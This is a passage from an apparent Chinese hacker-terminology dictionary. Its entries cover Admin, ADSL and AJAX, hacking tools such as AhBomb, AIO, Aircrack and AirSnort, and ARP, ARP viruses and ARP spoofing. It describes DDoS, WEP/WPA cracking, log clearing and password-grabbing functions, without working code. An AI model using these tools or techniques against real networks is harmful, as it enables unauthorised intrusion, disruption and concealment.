

图 A-2

## Admin（Administrator）｜黑客技术基础，操作系统

Administrator 中文意思就是“系统管理员”，Windows NT 及其后的 Windows 系列系统习惯使用“Administrator”用户名作为系统默认的管理员，也常使用其缩写“Admin”。慢慢地，各种各样需要认证的软件都使用“Admin”、“Administrator”、“Guest”等单词来作为软件默认的用户名。

在入侵时也经常提到 Admin 权限，也就是指的管理员权限。

### ADSL｜黑客技术基础

ADSL（Asymmetric Digital Subscriber Line，非对称数字用户线路）即俗称的宽带，也是目前使用最为广泛的互联网接入方式。其特征是需要拨号才能上网，一般使用的是 PPPoE 协议。它也被誉为“现代信息高速公路上的快车”，因其具有下行速率高、频带宽、性能优等特点而深受广大用户的喜爱，成为继 Modem、ISDN 之后的一种全新、快捷、高效的接入方式。

ADSL 是一种非对称的 DSL 技术，所谓非对称是指用户线路的上行速率（低）与下行速率（高）不同；特别适合传输多媒体信息业务，如视频点播（VOD）、多媒体信息检索和其他交互式业务。ADSL 在一对铜线上支持上行速率 512Kbps-1Mbps，下行速率 1Mbps-8Mbps。

### ANSI｜特定名称

ANSI（American National Standards Institute，美国国家标准协会）是一个准国家式的标准机构，由公司、政府和其他成员组成的自愿组织。它们协商与标准有关的活动，审议美国国家标准，并努力提高美国在国际标准化组织中的地位。多年以来，ANSI 使有关通信和网络方面的国际标准和美国标准得到发展，它为那些在特定领域建立标准的组织提供区域许可，如电气电子工程师协会（IEEE）。这个词也常常用来表示计算机使用的低级代码表。ANSI 是国际标准化委员会（ISO）和国际电工委员会（IEC）5 个常任理事成员之一，4 个理事局成员之一，参加 79% 的 ISO/TC 活动，参加 89% 的 IEC/TC 活动。

ANSI 是泛美技术标准委员会（COPANT）和太平洋地区标准会议（PASC）的成员。互联网与计算机的很多标准也都是 ANSI 制定的，也就是说，关于 IT 行业技术标准的重大决策都由外国人决定。

## Advanced_AccessPassword_Recovery｜应用程序

一款密码恢复工具，它能够恢复由 Microsoft Access 95/97/2000 所生成的数据库文件的密码，还可以对密码进行修改，一般在忘记 Access 数据库文件密码时使用。

### AhBomb｜黑客工具

一款用来执行 DDOS 攻击的工具，如图 A-3 所示。首先搜索有漏洞的服务器，然后通过控制这些有漏洞的服务器集中利用 Ping 来攻击目标机，导致目标网络速度变慢，达到 DDOS 攻击的目的。



### AIO｜黑客工具

AIO（All In One）是一款命令提示符下执行的工具集合，它将很多的小工具功能集成到一起，从而方便用户的使用，大家不必再为执行不同的命令来更换不同的黑客工具。

虽然 AIO 只是一个本地执行的工具，但是我们完全可以通过和某些溢出工具的搭配，从而在远程计算机上执行 AIO，让其帮助我们完成所需要的工作。其主要功能参数包括：

- 1. AutoRun -> 查看一般登录后启动的项
- 2. Clone -> 克隆账户
- 3. CheckClone -> 检测克隆账户
- 4. CleanLog -> 清除日志
- 5. ConfigService -> 修改服务的启动类型
- 6. DelUser -> 删除系统账户
- 7. EnumService -> 列举系统服务
- 8. FHS -> 检查系统隐藏服务
- 9. FGet -> FTP 下载
- 10. FindPassword -> 得到 NT/2K 所有登录系统用户密码
- 11. InstallService -> 安装服务
- 12. KillTCP -> 杀掉一个 TCP 连接
- 13. LogOff -> 注销系统
- 14. MGet -> HTTP 下载文件
- 15. MPort -> 端口和程序关联映射
- 16. Never -> 将系统账户登录次数重置为 0
- 17. PowerOff -> 关机、关电源
- 18. Pslist -> 列进程
- 19. Pskill -> 杀进程
- 20. PortScan -> 端口扫描（Syn 和 TCP 扫描）
- 21. PortRelay -> TCP 数据转发
- 22. Reboot -> 重启系统
- 23. RemoveService -> 删除服务
- 24. StartService -> 启动服务
- 25. StopService -> 停止服务
- 26. Sysinfo -> 查看系统信息
- 27. ShutDown -> 关机
- 28. Terminal -> 安装终端服务（2K/XP/2003 中都适用）
- 29. Unhide -> 查看星号密码（NT 系统有效）
- 30. WinInfo -> 查看账户信息等

### Aircrack｜黑客工具

Aircrack 是一套用于破解 WEP 和 WPA 的工具套装，一般用于无线网络的密钥破解，从而非法进入未经许可的无线网络，如图 A-4 所示。只要一旦收集到足够的加密数据包，利用它就可以破解 40 到 512 位的 WEP 密钥，也可以通过高级加密方法或暴力破解来破解 WPA1 或 2 网络。（详情见 WEP 词条。）



图 A-4

### AirSnort｜黑客工具

AirSnort 是无线局域网中的一种工具，可以对密钥进行恢复，部分功能与 Aircrack 相似，但它能毫无迹象地对通信进行嗅探，当收集到的数据包足够多时，就可以计算出密钥。

## AJAX 技术（程序语言与开发）

AJAX（Asynchronous JavaScript and XML，异步 JavaScript 和 XML）跟 RUBY 一样，都是 Web 2.0 的技术代表，具体是指一种创建交互式网页应用的网页开发技术。

与传统的 Web 应用相比，AJAX 应用可以仅向服务器发送并取回必需的数据。它使用 SOAP 或其他一些基于 XML 的 Web Service 接口，并在客户端采用 JavaScript 处理来自服务器的响应。因为在服务器和浏览器之间交换的数据大量减少，结果我们就能看到响应更快的应用。同时，很多处理工作可以在发出请求的客户端机器上完成，所以 Web 服务器的处理时间也减少了。Ajax 引擎在客户端运行，承担了一部分本来由服务器承担的工作，从而减少了大用户量下的服务器负载。

## AMSN 应用程序

AMSN 是一款自由、开源的 MSN 替代软件，可以说是目前与 MSN 拟真度最高的一款工具。不但支持最流行的动态表情图标，连 MSN 专属的声音传讯和网络视讯功能也完全支持。同时支持跨平台运行，如 Linux、Mac OS X、Windows。

## Armadillo Professional 应用程序

一套强大的软件保护系统，可以为您的程序添加装甲般的外壳，如图 A-5 所示。软件通过艺术性的加密、数据压缩和其他安全特性保护您的程序不被盗版和破解。Armadillo 可以让您在 5 分钟内为程序设计并添加一套完全的软件保护和注册系统，并且不需要您修改任何程序代码，其支持所有语言编写的 32 位 Windows EXE 文件。



图 A-5

## ARP（黑客技术基础）

ARP 协议是 “Address Resolution Protocol”（地址解析协议）的缩写。当我们在浏览器里面输入网址时，DNS 服务器会自动把它解析为 IP 地址，浏览器查找这个 IP 地址并读取 Web 服务器设置好的缺省索引文件，网页文件就被打开了。

而在以太网（一般局域网都属于以太网）中，当 IP 数据包发送时，以太网中的设备并不识别 32 位 IP 地址，而只识别网卡的物理地址，也就是 MAC 地址。它们只有通过 MAC 地址才能分辨哪个数据包是由哪台计算机传来的。也就是说，IP 地址与 MAC 地址之间存在着相应的映射，而 ARP 就是用来确定这些映射的协议。ARP 协议对网络安全具有重要的意义，攻击者可以通过伪造 IP 地址和 MAC 地址映射关系实现 ARP 欺骗及 ARP 中毒。

一台计算机在局域网中如果想与其他计算机通信，就必须先得到对方的 MAC 地址，这个得到 MAC 地址的过程就是由 ARP 来完成的。我们以主机 A（192.168.1.5）向主机 B（1.1.1.1）发送数据为例进行说明。

当发送数据时，主机 A 会在自己的 ARP 缓存表中寻找是否有目标 IP 地址。如果找到了，也就知道了目标 MAC 地址，这时直接把目标 MAC 地址写入帧里面进行发送就可以了；如果在 ARP 缓存表中没有找到相对应的 IP 地址，主机 A 就会在网络上发送一个广播，向同一网段内的所有主机发出询问：“1.1.1.1 的 MAC 地址是什么？”

网络上其他主机并不响应 ARP 询问，只有主机 B 接收到这个帧时，才向主机 A 做出回应：“1.1.1.1 的 MAC 地址是 00-aa-00-62-c6-09”。

这样，主机 A 就知道了主机 B 的 MAC 地址，它就可以向主机 B 发送信息了。同时它还更新了自己的 ARP 缓存表，下次再向主机 B 发送信息时，直接从 ARP 缓存表里进行查找就可以了。

ARP 缓存表采用了老化机制，在一段时间内如果表中的某一行没有被使用，就会被删除，这样可以大大减少 ARP 缓存表的长度，加快查询速度。

在许多系统中，检索 **ARP 缓存表** 的命令就是：`arp -a`，如图 A-6 所示。



有了把 IP 地址解析成 MAC 地址的协议，当然也有将 MAC 地址解析为 IP 地址的协议，即 **RARP**，其实就是 ARP 的逆过程。

## ARP 病毒——病毒与恶意软件

ARP 病毒其实就是利用 ARP 欺骗原理来进行传播的一种病毒，它将机器感染后会对与本机在同一局域网的机器进行 ARP 欺骗，将所有机器访问的网页都插入指定的网页木马。当其他机器访问此网页木马后又会中同样的病毒，依此类推，不停扩散。

ARP 欺骗木马只需成功感染一台电脑就可导致整个局域网都无法上网，严重的甚至可能带来整个网络的瘫痪。该木马发作时除了会导致同一局域网内的其他用户上网出现时断时续现象外，还会窃取用户密码，如盗取 QQ 密码、网游密码等。

ARP 病毒的中毒现象一般表现为：使用局域网时会突然掉线，过一段时间后又会恢复正常。比如客户端状态频频变红、用户频繁断网、IE 浏览器频繁出错，以及一些常用软件出现故障等。如果局域网中是通过身份认证上网的，会突然出现可认证但不能上网的现象（无法 ping 通网关），重启机器或在 MS-DOS 窗口下运行命令 `arp -d` 后又恢复正常。

## ARP 数据包（黑客技术基础）

指实现 ARP 协议所使用的数据包，其报头格式如图 A-7 所示。



以太网报头中的前两个字段是以太网的源地址和目的地址。目的地址为全 1 的特殊地址是广播地址，电缆上的所有以太网接口都要接收广播的数据帧。两个字节长的以太网帧类型表示后面数据的类型。对于 ARP 请求或应答来说，该字段的值为 `0x0806`。

硬件类型字段表示硬件地址的类型，它的值为 1 即表示以太网地址，即 MAC 地址。

协议类型字段表示要映射的协议地址类型，它的值为 `0x0800`，即表示 IP 地址。它的值与包含 IP 数据报的以太网数据帧中的类型字段的值相同，这是有意设计的。

接下来的两个 1 字节字段是硬件地址长度和协议地址长度，以字节为单位。对于以太网上 IP 地址的 ARP 请求或应答来说，它们的值分别为 6 和 4。

操作字段（OP）指出两种操作类型，它们是 ARP 请求（值为 1）、ARP 应答（值为 2）。这个字段是必需的，因为 ARP 请求和 ARP 应答的帧类型字段值是相同的。请求就是询问 IP 地址的 MAC 地址，而应答就是回应这个请求，并将其 MAC 地址告诉发送请求的主机。

接下来的四个字段是发送端的硬件地址、发送端的协议地址（IP 地址）、目的端的硬件地址和目的端的协议地址。注意，这里有一些重复信息；在以太网的数据帧报头中和 ARP 请求数据帧中都有发送端的以太网地址。

对于一个 ARP 请求来说，除目的以太网地址外，所有其他字段都有填充值。当目的主机收到一份目的端为自己的 ARP 请求报文后，它就把以太网地址填进去，然后用两个目的端地址分别替换两个发送端地址，并把操作字段置为 2，最后把它发送回去。

这样，当发送请求的计算机收到 ARP 应答包后，只要查看目的以太网地址的信息就知道其 MAC 地址了。

图 A-8 为 IRIS 嗅探器嗅探到的 ARP 数据包情况。ARP 报头如图 A-9 所示。



| 字段 | 值 |
|---|---|
| 硬件类型 | 1（Ethernet） |
| 协议类型 | 0x0800（IP） |
| 硬件地址长度 | 6 |
| 协议地址长度 | 4 |
| 发送端 MAC 地址 | 00:50:E8:08:7F:8D |
| 发送端 IP 地址 | 192.168.0.155 |
| 操作字段 | 1（Request） |
| 目的以太网地址 | FF:FF:FF:FF:FF:FF |
| 目的 IP 地址 | 192.168.0.1 |

图 A-9

## ARP 欺骗（黑客技术基础）

ARP 欺骗是指操纵两台主机的 ARP 缓存表，以改变它们之间的正常通信方向，这种通信注入的结果就是 ARP 欺骗攻击。每台主机上都有一张 ARP 缓存表，它记录了 IP 地址到 MAC 地址的映射关系，MAC 地址又叫硬件地址或网卡地址，具有全球唯一性。因此，主机间通信要通过查看 ARP 表来确定目标主机的位置，然后再发送数据。ARP 表记录的内容如图 A-10 所示。

| IP 地址 | MAC 地址 |
|---|---|
| 192.168.1.2 | 00-50-56-C0-00-08 |
| 192.168.1.3 | 00-50-56-C0-40-22 |
| 192.168.1.4 | 00-50-56-C0-10-33 |
| ... | ... |

图 A-10

那么如何获取对方的地址呢？这就要用到广播的方式。通过这种方式向本网络中（比如同一个局域网）的所有主机发送请求信息，以此来获取各台主机或某台主机的地址，其原理如图 A-11 所示。



在同一网段中（比如网吧，通常就是同一个网段），假设主机 A 要和主机 D 通信，但 A 中没有关于 D 的 ARP 映射表，于是 A 就向除本端口以外的所有端口发送一个广播分组。这个广播被称为本地广播，它的地址形式为：255.255.255.255，表示向网络中所有主机发送消息。

当发送出去之后，B、C、D 都能收到这个广播分组，同时 B、C、D 都会将 A 的 IP 和 MAC 地址写进各自的 ARP 缓存表中，但之后响应 A 的只有 D。因为 D 此时知道 A 要和它通信，所以 D 将自己的 IP 和 MAC 地址发送给 A，A 便将它存储到自己的 ARP 缓存中。这样就完成了地址的获悉过程。

在 Windows 系统的默认状态下，ARP 缓存中的表项仅存储 2 分钟。若一个表项在 2 分钟内被用到，则寿命会延长 2 分钟，直至达到最大值 10 分钟为止。当超过 10 分钟后，ARP 表将会被删除，有需要时才会再次发送 ARP 请求重新获得新的地址映射表。

有 ARP 就必定会有 RARP（Reverse ARP），即反向地址解析协议，它的作用就是将 MAC 地址解析为 IP 地址。当一台主机想知道自己的 IP 地址时，就可以用 RARP 来解析。

### 一、ARP 欺骗的适用场合

- 1. 共享式以太网

以太网通常是指数据传输速率达到 100Mbps 以上，采用灵活网络拓扑结构的网络，并且符合 IEEE 802.3 标准，比如现在的企业网、网吧，都可以称为以太网。

对于早期的共享式以太网来说，通常采用集线器来互联，集线器工作在第一层，即物理层。对于这一层，集线器所连接的网段是一个广播域，即一方发多方收；同时也是一个冲突域，即网络同时发送消息会引起冲突。

通常情况下，攻击者利用广播技术将某个端口要发送的数据广播到本网络的其他所有主机上，目标主机会接收此数据，而其他主机则会丢弃该数据。如果网卡被设为混杂模式（promisc），则其他主机也可以接收此数据，因为在混杂模式下，各端口的状态被设为无条件接收模式。这样，就可以在共享式以太网中进行 ARP 欺骗了。

- 2. 交换式以太网

交换式以太网是采用交换机来连接，交换机工作在第二层，即数据链路层。此层的特点就是把要发送的数据封装成帧（帧就是一种携带了 MAC 地址信息的特殊数据）。使用交换机互联的网段也是一个广播域，交换机的每一个端口都是一个冲突域。

交换机会在内部维护一张容量很大的 MAC 地址表。当读取到数据包中的目的 MAC 地址时，便从自己的 MAC 地址表中进行查找对比。如果查找到，则把数据转发过去；如果没有找到，则会将数据广播到网络中的所有主机上。当目标主机应答交换机时，交换机就可以知道这个 MAC 地址应该与哪个端口相对应。这个过程被称为“学习”，即一种获取地址映射的手段。

在这里，如果网卡被设为混杂模式，则只能捕获到目的 MAC 地址为本地（本机）地址的数据包，此时在共享式以太网中的监听方法失效。

这是因为交换机内部的结构为交换矩阵，每个端口各自独立，不像集线器那样内部结构为总线结构。由于交换机采用专门的 ASIC（专用集成电路），结构已不像集线器那么简单，因此无法采用混杂模式来捕获数据。为了方便管理员分析数据，交换机采用的是镜像端口。镜像就好比映射，它可以把出入网络的数据全部镜像到一个端口上，方便管理员分析。

由于 ARP 协议是无连接、无认证的，局域网中的任何主机都可以随意发送 ARP 请求包，当然也可以接收 ARP 应答包，并且会无条件地根据应答包内的内容更新本机的 ARP 缓存表。因此，ARP 欺骗在交换式以太网中同样适用，只是不需要工作在混杂模式而已。

### 二、ARP 欺骗的方法

- 1. **中间人攻击**

中间人就好比一个中介一样，负责交换两端的协商，其攻击原理如图 A-12。图 A-12 中，C 为攻击者，图中表示 A 与 B 之间并不是直接通信，C 在 A 与 B 之间充当了中间人（Man In The Middle）的角色，使得 A 与 B 之间的数据必须通过 C 进行交换。

